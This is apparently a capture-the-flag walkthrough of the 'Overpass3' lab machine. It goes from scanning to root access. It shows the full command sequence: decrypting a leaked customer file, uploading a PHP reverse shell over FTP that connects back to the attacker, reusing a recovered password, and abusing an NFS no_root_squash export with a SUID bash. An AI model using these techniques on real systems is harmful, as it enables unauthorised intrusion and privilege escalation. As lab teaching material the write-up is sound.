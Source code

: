 # Overpass3

## 1. Recon

we run the nmap scan and the gobuster parallely, while we explore the website.

### 1.1 Port Scanning
```
❯ nmap -script=vuln -sV -A -T4 -Pn 10.10.16.10
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 21:54 EST
Nmap scan report for 10.10.16.10
Host is up (0.52s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_sslv2-drown: 
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|_  /icons/: Potentially interesting folder w/ directory listing
|_http-server-header: Apache/2.4.37 (centos)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.52 seconds
```

### 1.2 Web Enumeration + Exploration
`❯ gobuster dir -u 10.10.16.10 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "html,php,txt"`

well this didn't workout well. But, from the nmap scan, we have two directories listed:

`/backups/ & /icons/`

`/icons/` did not have anything interesting, so lets look at `/backups/`. We have a zip file as `backup.zip`. Downloading and unzipping,

```
❯ unzip backup.zip
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key 
```

```
❯ gpg --import priv.key
gpg: key C9AE71AB3180BC08: "Paradox <paradox@overpass.thm>" not changed
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

```
❯ gpg CustomerDetails.xlsx.gpg
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"
```

Nice, we have all the customer details neatly bundled up for us. Now, lets convert the `xlsx` to `pdf`.

So we have some customer names and their username-password combinations and, some credit card information XD

### 1.3 FTP
lets try logging in using this from ftp. `paradox` username works! okay okay. lets try putting a file on the server using `put filename`. So that works too. Lets upload a php reverse shell and see how that works. Don't forget to change the `$ip` to your `tun0`, or the relevant `tun`.

```
❯ ftp 10.10.181.222
...
ftp> pwd
257 "/" is the current directory
ftp> put phpreverseshell.php
...
ftp> ls
...
-rw-r--r--    1 1001     1001         5494 Mar 07 03:10 phpreverseshell.php
226 Directory send OK.
```


## 2. Foothold
Setup netcat to listen on the port specified. I did not change so its `1337` for me. 

`❯ nc -lnvp 1337`

So, lets execute the shell on there. How? just curl!

`❯ curl 10.10.16.10/shell.php`

```
❯ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.181.222] 38004
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:12:19 up 17 min,  0 users,  load average: 0.00, 0.41, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (874): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
sh-4.4$ pwd
/
pwd
sh-4.4$ 
```

## 3. Priv Esc

let's first get the web flag:
```
sh-4.4$ cd ~
cd ~
sh-4.4$ ls
ls
error
icons
noindex
web.flag
sh-4.4$ cat web.flag
cat web.flag
thm{NOICE}
sh-4.4$ 
```

Converting to a python shell using `python3 -c "import pty; pty.spawn('/bin/bash')"`, lets focus on privesc.

```
bash-4.4$ su paradox
su paradox
Password: ShibesAreGreat123

[paradox@localhost html]$ whoami
whoami
paradox
```

Since we can transfer files using ftp, we can put in `linpeas.sh`


```
[+] Searching ssl/ssh files
/home/paradox/.ssh/authorized_keys                              
/home/paradox/.ssh/id_rsa.pub  /usr/bin/passwd
Possible private SSH keys were found!
/home/paradox/priv.key
```

```
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe                          
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)           
```

```
Files with capabilities:
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

Okay. the NFS thing was full red in color. [Why no_root_squash is not a good idea](http://blog.serverbuddies.com/why-we-should-not-use-the-no_root_squash-option/). We have lots of scope there. To find out what port its running on, we can look at the nmap scan results. However, we can't see it there. It must be filtered or blocked. In any case, we can look for it, by:

```
[paradox@localhost home]$ rpcinfo -p
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  49444  status
    100024    1   tcp  45735  status
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  56460  nlockmgr
    100021    3   udp  56460  nlockmgr
    100021    4   udp  56460  nlockmgr
    100021    1   tcp  32803  nlockmgr
    100021    3   tcp  32803  nlockmgr
    100021    4   tcp  32803  nlockmgr
```

Its at the port 2049, which is the default for NFS.

```
❯ ssh paradox@10.10.181.222 -L 2049:localhost:2049
Enter passphrase for key '/home/tanishq/.ssh/id_rsa': 
Last login: Sun Mar  7 04:22:48 2021 from 10.8.150.214
[paradox@localhost ~]$ 
```

```
❯ sudo mount -v -t nfs localhost:/ /home/tanishq/mnt
mount.nfs: timeout set for Sun Mar  7 00:12:57 2021
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'
```

```
total 1228
drwx------  3 tanishq tanishq     124 Mar  7 00:36 .
drwxr-xr-x 33 tanishq tanishq    4096 Mar  7 00:36 ..
-rwxr-xr-x  1 root    root    1234376 Mar  7 00:36 bash
lrwxrwxrwx  1 root    root          9 Nov  8 16:45 .bash_history -> /dev/null
-rw-r--r--  1 tanishq tanishq      18 Nov  8  2019 .bash_logout
-rw-r--r--  1 tanishq tanishq     141 Nov  8  2019 .bash_profile
-rw-r--r--  1 tanishq tanishq     312 Nov  8  2019 .bashrc
drwx------  2 tanishq tanishq      61 Nov  7 21:20 .ssh
-rw-------  1 tanishq tanishq      38 Nov 17 16:15 user.flag
```

`❯ cat id_rsa >> /relevant/path/here/james.key`


```
❯ chmod 600 james.key
❯ ssh -i james.key james@10.10.179.112
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@localhost ~]$ 
```

```
[james@localhost ~]$ ls
bash  user.flag
[james@localhost ~]$ ./bash
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1$ whoami
james
bash-5.1$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1# whoami
root
```

:D
